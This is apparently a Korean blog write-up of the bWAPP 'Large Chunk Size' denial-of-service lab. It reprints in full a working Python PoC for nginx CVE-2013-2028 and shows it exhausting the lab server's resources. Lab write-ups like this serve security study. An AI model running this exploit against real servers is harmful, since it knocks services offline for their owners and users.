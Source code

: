 ```yaml
---
layout: single
title: (bWAPP)Denial-of-Service (Large Chunk Size)
categories: bwapp
tag: [xst,cross-site tracing, xss, bwapp, bee box, session, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


> 취약점 설명
- DoS는 서비스 거부 공격으로, 대상 시스템에 대한 가용성을 무너뜨리는 공격이다. 대표적으로 대역폭 공격, 리소스 고갈, 프로토콜 공격, 공격자 자원 고갈등이 존재한다.

![그림 1-1](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image.png)
- 8080/8443 포트로 Nginx 웹 서버가 동작중이며, 해당 웹 서버는 chunked Transfer-Encoding을 통한 DoS 공격에 취약하다고 한다.

```
HTTP Chunked는 request body의 크기를 가변적으로 정할 수 있는 기능이다.
```

해당 bWAPP에서는 타겟 서버의 DoS 공격을 수행하는 악성 스크립트를 제공하고 있다.

```python
# Exploit Title: nginx v1.3.9-1.4.0 DOS POC (CVE-2013-2028)
# Date: 16.05.2013
# Exploit Author: Mert SARICA - mert [ . ] sarica [ @ ] gmail [ . ] com - http://www.mertsarica.com
# Minor customizations by Malik Mesellem (@MME_IT)
# Vendor Homepage: http://nginx.org/
# Software Link: http://nginx.org/download/nginx-1.4.0.tar.gz
# Version: 1.3.9-1.4.0
# Tested on: Kali Linux & Windows XP (nginx v1.4.0)
# CVE : CVE-2013-2028

import httplib
import time
import socket
import sys
import os

# Vars & Defs
debug = 0
dos_packet = 0xFFFFFFFFFFFFFFEC
socket.setdefaulttimeout(1)

packet = 0

def chunk(data, chunk_size):
    chunked = ""
    chunked += "%s\r\n" % (chunk_size)
    chunked += "%s\r\n" % (data)
    chunked += "0\r\n\r\n"
    return chunked

if sys.platform == 'linux-i386' or sys.platform == 'linux2':
        os.system("clear")
elif sys.platform == 'win32':
        os.system("cls")
else:
        os.system("cls")
                
print "======================================================================"
print u"nginx v1.3.9-1.4.0 DOS POC (CVE-2013-2028) [http://www.mertsarica.com]"
print "======================================================================"

if len(sys.argv) < 2:
        print "Usage: python nginx_dos.py [target ip:port]\n"
        print "Example: python nginx_dos.py 127.0.0.1:8080\n"
        sys.exit(1)
else:
    host = sys.argv[1].lower()
        
while packet <= 66:

    body = "beezzzzzzzzzz"
    chunk_size = hex(dos_packet + 1)[3:]
    chunk_size = ("F" + chunk_size[:len(chunk_size)-1]).upper()

    if debug:
        print "data length:", len(body), "chunk size:", chunk_size[:len(chunk_size)]

    try:
        con = httplib.HTTPConnection(host)
        url = "/bWAPP/portal.php"
        con.putrequest('POST', url)
        con.putheader('User-Agent', 'bWAPP')
        con.putheader('Accept', '*/*')
        con.putheader('Transfer-Encoding', 'chunked')
        con.putheader('Content-Type', 'application/x-www-form-urlencoded')
        con.endheaders()
        con.send(chunk(body, chunk_size[:len(chunk_size)]))
    except:
        print "Connection error!"
        sys.exit(1)
        
    try:
        resp = con.getresponse()
        print(resp.status, resp.reason)
    except:
        print "[*] Knock knock, is anybody there ? (" + str(packet) + "/66)"

    packet = packet + 1
    
    con.close()

print "[+] Done!"
```

해당 PoC 코드는 CVE-2013-2028로 명명된 취약점에서 사용되는 공격 코드이다.

![그림 1-2](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-1.png)
해당 소스크드를 공격자 Kali에서 파이썬 스크립트로 만들어 실행시키면, 위와 같은
문구가 출력된다.
<br>
사용법은 스크립트 사용시 파라미터로 ip와 port를 넘겨주게 되는데, bWAPP에서는
8080 및 8443포트를 사용하라고 나와있다.

![그림 1-3](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-2.png)
- 현재 bWAPP 서버의 CPU 및 MEMORY상태를 보면 아무 이상이 없다.

![그림 1-4](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-3.png)
- 필요한 인자를 주고 실행시키면 66번의 패킷을 지속적으로 전송하는 듯 하다.

![그림 1-5](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-4.png)
- bWAPP 서버의 CPU 및 MEMORY 또한 비정상적으로 사용되는것을 확인할 수 있다.
- 이를 통해 DoS 공격으로 인한 서버의 가용성을 침해한다.

![그림 1-6](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-5.png)
- 와이어샤크로 패킷을 보게되면 HTTP chunked response로 나와있는 걸 볼 수 있다.
- 이러한 공격은 공격자가 대량의 http 요청을 보낼 때, 서버는 요청을 처리하지 않고 리소스를 낭비하게 되므로, 가용성 감소를 통한 서비스 불능 상태로 만든다.